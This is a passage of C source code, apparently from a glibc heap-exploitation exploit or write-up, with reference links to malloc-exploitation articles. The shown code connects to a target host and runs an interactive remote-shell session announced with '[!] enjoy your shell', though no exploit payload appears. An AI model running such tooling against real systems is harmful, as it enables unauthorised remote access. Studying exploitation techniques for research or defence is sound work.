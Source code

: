 	FD_ZERO(&fds);
	FD_SET(sock, &fds);
 
	select(sock+1, &fds, NULL, NULL, &tv);
 
	if (FD_ISSET(sock, &fds)) {
		if ((amt = read(sock, output, 1024 - 1)) == 0) {
			handle_error("connection lost\n");
		}
		output[amt] = '\0';
	}
}
 
int setsock(char *hostname, int port)
{
	int s;
	struct hostent *hent;
	struct sockaddr_in sa;
	struct in_addr ia;
 
	hent = gethostbyname(hostname);
	if (hent) {
		memcpy(&ia.s_addr, hent->h_addr, 4);
	}
	else if((ia.s_addr = inet_addr(hostname)) == INADDR_ANY) {
		handle_error("incorrect address !!!\n");
	}
 
	if ((s = socket(AF_INET, SOCK_STREAM, 0)) == -1) {
		handle_error("socket failed !!!\n");
	}
 
	sa.sin_family = AF_INET;
	sa.sin_port = htons(port);
	sa.sin_addr.s_addr = ia.s_addr;
 
	if (connect(s, (struct sockaddr *)&sa, sizeof(sa)) == -1) {
		handle_error("connection failed !!!!\n");
	}
 
	return s;
}
 
void session()
{
	char buf[1024];
	int amt;
	fd_set fds;
 
	printf("[!] enjoy your shell \n");
	fputs(COLOR_SHELL, stderr);
 
	while (1) {
		FD_ZERO(&fds);
		FD_SET(sock, &fds);
		FD_SET(0, &fds);
 
		if (select(sock+1, &fds, NULL, NULL, NULL) == -1) {
			continue;
		}
 
		if (FD_ISSET(0, &fds)) {
			if ((amt = read(0, buf, sizeof(buf) - 1)) == 0) {
				handle_error("connection lost\n");
			}
			buf[amt] = '\0';
			write(sock, buf, strlen(buf));
		}
 
		if (FD_ISSET(sock, &fds)) {

[sploitfun]: https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/
[goichon]: http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf
[tavis]: https://bugs.chromium.org/p/project-zero/issues/detail?id=96&redir=1
[blackngel]: http://phrack.org/issues/67/8.html#article